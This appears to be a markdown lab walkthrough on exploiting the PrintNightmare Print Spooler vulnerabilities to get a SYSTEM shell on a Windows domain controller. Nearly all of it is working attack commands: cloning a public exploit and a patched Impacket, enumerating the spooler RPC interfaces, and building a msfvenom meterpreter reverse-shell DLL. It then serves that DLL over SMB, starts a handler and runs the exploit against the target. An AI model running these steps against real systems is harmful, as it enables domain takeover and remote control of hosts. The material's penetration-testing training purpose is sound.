# PrintNightmare
`PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems. Many exploits have been written based on these vulnerabilities that allow for privilege escalation and remote code execution.
Let's practice with one exploit that can allow us to gain a SYSTEM shell session on a Domain Controller running on a Windows Server 2019 host.
Before conducting this attack, we must retrieve the exploit we will use. In this case, we will be using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit. We can use Git to clone it to our attack host:
## Cloning the Exploit
``` shell
git clone https://github.com/cube0x0/CVE-2021-1675.git
```
We may need to uninstall the version of Impacket on our attack host and install cube0x0's .
## Install cube0x0's Version of Impacket
```shell
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
## Enumerating for MS-RPRN to see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.
``` shell
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```
![image](https://github.com/user-attachments/assets/8665824e-4cd1-4d2c-9491-c08b70765227)

##crafting a DLL payload using `msfvenom`.
### Generating a DLL Payload
``` shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
host this payload in an SMB share we create on our attack host using `smbserver.py`.
```shell
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```
### Configuring & Starting MSF multi/handler
```shell
msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.16.5.225
LHOST => 172.16.5.225
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.5.225:8080
```
## Running the Exploit
``` shell
sudo python3 CVE-2021-1675.py Domain/User:Password@<DC-IP> '\\<Attacker-IP>\CompData\backupscript.dll'
```


